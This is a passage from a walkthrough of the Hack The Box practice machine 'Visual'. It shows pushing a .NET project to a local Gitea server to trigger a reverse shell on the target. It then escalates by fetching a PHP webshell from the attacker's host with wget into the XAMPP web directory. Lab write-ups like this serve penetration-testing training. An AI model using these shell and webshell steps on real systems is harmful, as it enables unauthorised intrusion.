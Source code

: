 After this has completed browse too **http://127.0.0.1:3000** And finalize the the instalation steps. keep it all as default it should be fine.


next run the following commands to initialize our git repo as well as push this repo to the origin

```bash
git init
git checkout -b main
git config --global --add safe.directory /home/kali/share/Share/HTB/Boxes/Visual/Dotnet_project
git add .
git config --global user.email "you@example.com"
git config --global user.name "Your Name"
git commit -m "first commit" 
git remote add origin http://localhost:3000/test/dotnet_project.git
git push -u origin main
```

### Exploiting the application

So now that we have everything setup all we have to do is submit the link to our gitea project. After a few moments we'll get a reverse shell to spawn

```
http://10.10.14.91:3000/test/dotnet_project.git
```
![Shell](/assets/img/Visual/Visual_07.png)

## Privilege escalation
### Lateral movement to nt authority\local service

While looking for a way to escalate privileges as the current user i didn't see any way to get to system from here. however this user was allowed to write in the xamp directory. By writing a php file in the **C:\xampp\htdocs** directory i was able to get command execution as **nt authority\local service**

Seeing that the index page was written in PHP i tried to upload a php webshell for this example i used the shell created by [WhiteWinterWolf](https://github.com/WhiteWinterWolf/wwwolf-php-webshell). I downloaded the php file using the following command

```powershell
wget "http://10.10.14.91/ww.php" -outfile "Calico.php"
```
